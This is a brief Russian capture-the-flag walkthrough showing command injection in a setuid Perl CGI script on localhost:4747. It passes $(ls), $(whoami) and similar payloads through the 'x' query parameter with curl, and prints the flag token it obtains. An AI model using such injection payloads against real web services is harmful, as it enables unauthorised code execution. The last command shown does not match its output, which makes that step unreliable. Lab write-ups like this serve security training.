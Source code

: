 #RCE (Remote Code Execution)

Посмотрев есть ли что-то находим файл со скриптом и нужным SUID
```
ls -l
```
> -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

```
cat level04.
```
> #!/usr/bin/perl\
# localhost:4747\
use CGI qw{param};\
print "Content-type: text/html\n\n";\
sub x {\
  $y = $_[0];\
  print `echo $y 2>&1`;\
}\
x(param("x"));

Из скрипта понятно, что на порту 4747 работает сервер, в котором настроен CGI
Принимает параметром x, который попробуем ему передать

```
curl 'localhost:4747/?x=$(ls)'
```
> level04.pl

Выходит, а значит можем продожать

```
curl 'localhost:4747/?x=$(whoami)'
```
> flag04

Команды выполняются от нужношо флага, а значит ему нужно передать getflag

```
curl 'localhost:4747/?x=$(whoami)'
```
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
